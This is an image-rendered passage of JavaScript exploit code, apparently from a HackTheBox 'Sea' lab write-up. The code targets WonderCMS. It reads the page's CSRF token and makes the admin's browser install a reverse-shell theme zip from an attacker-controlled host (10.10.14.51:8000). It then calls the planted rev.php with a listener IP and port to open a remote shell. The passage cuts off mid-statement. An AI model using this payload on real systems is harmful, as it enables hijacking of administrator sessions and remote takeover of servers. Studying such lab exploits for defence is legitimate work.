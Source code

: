 

```js
var url = "http://sea.htb/wondercms?page=index.php";

if (url.endsWith("/")) {

  url = url.slice(0, -1);

}

var urlWithoutLog = url.split("/").slice(0, -1).join("/");

var urlWithoutLogBase = new URL(urlWithoutLog).pathname;

var token = document.querySelectorAll('[name="token"]')[0].value;

var urlRev =

  "http://sea.htb/wondercms/?installModule=http://10.10.14.51:8000/revshell-main.zip&directoryName=violet&type=themes&token=" +

  token;

var xhr3 = new XMLHttpRequest();

xhr3.withCredentials = true;

xhr3.open("GET", urlRev);

xhr3.send();

xhr3.onload = function () {

  if (xhr3.status == 200) {

    var xhr4 = new XMLHttpRequest();

    xhr4.withCredentials = true;

    xhr4.open("GET", urlWithoutLogBase + "/themes/revshell-main/rev.php");

    xhr4.send();

    xhr4.onload = function () {

      if (xhr4.status == 200) {

        var ip = "10.10.14.51";

        var port = "1234";

        var xhr5 = new XMLHttpRequest();

        xhr5.withCredentials = true;

        xhr5.open(

          "GET",

          urlWithoutLogBase +

            "/themes/revshell-main/rev.php?lhost=" +

            ip +
```